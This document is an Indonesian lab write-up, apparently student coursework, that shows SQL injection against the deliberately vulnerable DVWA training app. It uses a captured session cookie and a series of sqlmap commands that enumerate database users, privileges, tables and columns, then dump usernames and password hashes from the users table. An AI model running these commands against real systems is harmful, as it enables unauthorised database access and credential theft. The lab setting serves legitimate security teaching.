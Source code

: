 # DVWA | Lesson 4
## Konfigurasi

Alamat target DVWA `http://10.151.34.170`

## Skenario
Login ke DVWA
Masuk ke menu SQL Injection

- Buka Tamper Data pada menu Tools, kemudian pilih `Start Tamper`.

![alt text](./2.png)

- Pada form SQL Injection, masukkan string 1.

  Setelah itu, akan muncul pop up `Tamper with Request?`. Uncheck dan pilih Submit.

![alt text](./3.png)

- Copy Header `Referrer` dan `Cookie`.

![alt text](./4.png)

- Dan paste pada gedit.

![alt text](./5.png)

- Setelah itu jalan script dibawah, gunakan session ID yang sudah didapat dari hasil Tamper.
  Command tersebut digunakan untuk mendapatkan database dan user yang digunakan pada web.

![alt text](./6.png)
  Maka akan didapat current user `root@%` dan database `dvwa`.

![alt text](./7.png)
- Selanjutnya jalankan script berikut untuk mendapatkan Database Management User dan user yang tersedia beserta passwordnya
  ```
  ./sqlmap.py -u "http://10.151.34.170/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=ee2f320b543b3fa85497e6b387c1cfb; security=low" --string="Surname" --users --password
  ```
![alt text](./8.png)
- Selanjutnya jalankan script berikut untuk mendapatkan privileges dari user `db_hacker` yang telah dibuat pada lesson sebelumnya.
  ```
  ./sqlmap.py -u "http://10.151.34.170/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=ee2f320b543b3fa85497e6b387c1cfb; security=low" -U db_hacker --privileges
  ```

![alt text](./9.png)
- Selanjutnya jalankan script berikut untuk mendapatkan semua database yang terdapat pada host DVWA.
  ```
  ./sqlmap.py -u "http://10.151.34.170/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=ee2f320b543b3fa85497e6b387c1cfb; security=low" --dbs
  ```

![alt text](./10.png)
- Selanjutnya jalankan script berikut untuk mendapatkan nama-nama table pada database `dvwa`
  ```
  ./sqlmap.py -u "http://10.151.34.170/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=ee2f320b543b3fa85497e6b387c1cfb; security=low" -D dvwa --tables
  ```
![alt text](./11.png)
- Selanjutnya jalankan script berikut untuk mendapatkan column beserta tipe data dari database `dvwa` table `users`.
  ```
  ./sqlmap.py -u "http://10.151.34.170/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=ee2f320b543b3fa85497e6b387c1cfb; security=low" -D dvwa -T users --columns
  ```

![alt text](./12.png)

- Selanjutnya jalankan script berikut untuk mendapatkan username beserta password dari semua user yang terdapat pada table `users`.
  ```
  ./sqlmap.py -u "http://10.151.34.170/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=ee2f320b543b3fa85497e6b387c1cfb; security=low" -D dvwa -T users -C user,password --dump
  ```

![alt text](./13.png)
- Selanjutnya jalankan script berikut untuk mendapatkan username beserta password dari semua user yang terdapat pada table `users`. Data dump dari table `users` secara otomatis tersimpan pada file `users.csv`.
  ```
  ./sqlmap.py -u "http://10.151.34.170/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=ee2f320b543b3fa85497e6b387c1cfb; security=low" -D dvwa -T users -C user,password --dump
  ```

## Hasil
![alt text](./14.png)

